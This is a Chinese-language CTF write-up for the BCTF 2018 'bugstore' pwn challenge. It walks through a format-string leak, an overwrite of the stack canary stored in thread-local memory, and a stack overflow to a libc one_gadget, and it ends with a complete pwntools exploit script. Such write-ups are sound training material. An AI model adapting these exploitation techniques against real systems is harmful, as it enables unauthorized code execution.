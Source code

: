 ```yaml
---
title: BCTF bugstore
date: 2018-09-30 00:00:00
categories:
- Pwn
tags: Pwn
---
```


## bugstore

很直白的给了三个漏洞，栈溢出，格式化字符串，任意地址写固定值，而且每个漏洞只能用一次

```c
int sub_C62()
{
  if ( flag )
    return puts("ain't it cool, bye now");
  flag = 1;
  read(0, &bss_data_0, 0x200uLL);
  return _printf_chk(1LL, (__int64)&bss_data_0);
}
```

格式化字符串这里用了printf_chk，但是地址泄露不影响

```c
int sub_D0E()
{
  int result; // eax

  if ( byte_202048 )
    return puts("ain't it cool, bye now");
  byte_202048 = 1;
  _isoc99_scanf("%llu", &addr);
  result = addr;
  *(_QWORD *)addr = 'EROTSGUB';
  return result;
}
```

任意地址写bugstore，八个字节，想到改写canary，之后栈溢出一把梭

问题是怎么搞到地址，直接格式化字符串泄露就好了

```
    '0x200\n'
    '0x7feed7135260\n'
    '0x7feed7639700\n'
    '0xd\n'
    '0x555d539d1df0\n'
    '0x555d539d1dd8\n'
    '0x7fff16740a46\n'
    '0xa8257cf249f78900\n'
    '(nil)\n'
    '0x7feed705e830\n'
    '0x7fff167448a8\n'
    '0x7fff167448a8\n'
    '0x1d71ca608\n'
    '0x555d539d1d61\n'
    '(nil)\n'

```

第八个就是canary了

```
pwndbg> find 0xa8257cf249f78900
Searching for '0xa8257cf249f78900' in: None ranges
Found 3 results, display max 3 items:
 mapped : 0x7feed7639728 --> 0xa8257cf249f78900 
[stack] : 0x7fff16744798 --> 0xa8257cf249f78900 
[stack] : 0x7fff167447b8 --> 0xa8257cf249f78900 
```

mapped那里就是存储canary的地方

打印出来的地址第三个离得很近，直接把BUGSTORE写进去就好了

exp:

```python
from pwn import *
context.log_level = 'debug'
io = process('./bugstore')
elf = ELF('bugstore')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def p():
	gdb.attach(io)
	raw_input()

io.recvuntil(':')
io.sendline('F')
payload = '%p\n'* 100

io.sendline(payload)
info = io.recvuntil('(F)')
info = str(info).strip('\n').split('\n')
canary_addr = int(info[2],16)+0x28
libc_base = int(info[9],16) - 240 - libc.symbols['__libc_start_main']
p()
io.recvuntil(':')
io.sendline('A')
io.sendline(str(canary_addr))
io.recvuntil(':')
io.sendline('S')
payload = 'A'*0x28 + 'BUGSTORE' + 'A'*8 + p64(libc_base +0x45216)
io.sendline(payload)
io.interactive()
```

编写的时候还是有一点坑的。。主要就是\x00字符截断，因为当时想满足onegadget环境变量需求就忘记截断这回事了，之后用了一个rax==null的gadget竟然直接就可以用，神奇。